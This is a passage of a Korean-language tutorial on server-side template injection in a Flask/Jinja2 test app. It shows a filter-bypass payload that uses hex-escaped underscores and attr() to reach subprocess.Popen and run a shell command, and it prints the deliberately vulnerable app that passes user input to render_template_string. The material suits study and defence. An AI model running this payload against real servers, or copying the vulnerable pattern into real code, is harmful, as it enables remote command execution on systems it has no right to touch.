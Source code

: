 이를 통해 `_` 문자를 우회하여 공격 코드를 전송 할 수 있습니다.

```python
# 273 : <class 'subprocess.Popen'>
{% raw %}{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(273)('id',shell=True,stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)}}{% endraw %}
```

![/assets/2021-05-01/SSTI_14.png](/assets/2021-05-01/SSTI_14.png)

### 3.2. case.2 - request, attr을 이용한 방법

 

소스코드를 다시 한번 살펴보면 필터링에 대한 체크를 message 파라미터에 대해서만 하는 것을 확인할 수 있습니다.

```python
from flask import Flask, request, render_template, render_template_string

app = Flask(__name__)
app.secret_key = "my Secret!!"

filtering = []

@app.route('/')
def index():
  return render_template("index.html", title="SSTI Test Page", message="Test Page!")

@app.route('/submit', methods=['POST'])
def sbmit():
  parm1 = request.form.get('message') or None
  for word in filtering:
      if word in parm1:
          return "NoNo... [{}] - filter list [ ".format(word)+", ".join(filtering)+" ]"
  template = '''
  data = ({})
'''.format(parm1)
  return render_template_string(template)

if __name__ == '__main__':
  app.run(host='0.0.0.0', port=5000)
```
